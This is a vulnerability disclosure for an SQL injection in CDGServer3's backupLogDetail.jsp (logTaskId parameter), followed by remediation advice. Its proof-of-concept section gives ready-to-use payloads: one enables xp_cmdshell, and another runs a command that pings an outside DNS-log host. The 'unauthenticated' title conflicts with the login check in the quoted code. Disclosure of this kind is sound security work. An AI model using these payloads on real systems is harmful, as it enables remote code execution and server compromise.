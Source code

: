 ![image-20250316215253530](./assets/image-20250316215253530.png)

# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `backupLogDetail.jsp` endpoint, specifically in the `logTaskId` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`CDGServer3/logManagement/backupLogDetail.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<jsp:useBean scope="session" class="com.org.acl.LoginMng" id="loginMng"/>
<%
    if (loginMng == null || !loginMng.isLogin()) {
        response.sendRedirect("../loginExpire.jsp");
        return;
    }
    String flag = request.getParameter("flag");
    //是否为主服务器
    if (MultiServerConfigModel.isMainServer()
            && !MultiServerConfigModel.isLiked(flag)
            && MultiServerConfigModel.isAllowMultiServer()) {
        response.sendRedirect(request.getContextPath() + "/system/multiServersList.jsp?/logManagement/clientLog.jsp");
        return;
    }
    String logTaskId = request.getParameter("logTaskId");
    LogTaskDao logTaskDao = new LogTaskDao();
    LogTaskInfo logTaskInfo = logTaskDao.findLogTaskById(logTaskId);

%>
```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';exec master..xp_cmdshell 'ping 27b536b2c9.ipv6.1433.eu.org.'--
   ```

![image-20250220201500933](./assets/image-20250220201500933.png)

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `backupLogDetail.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

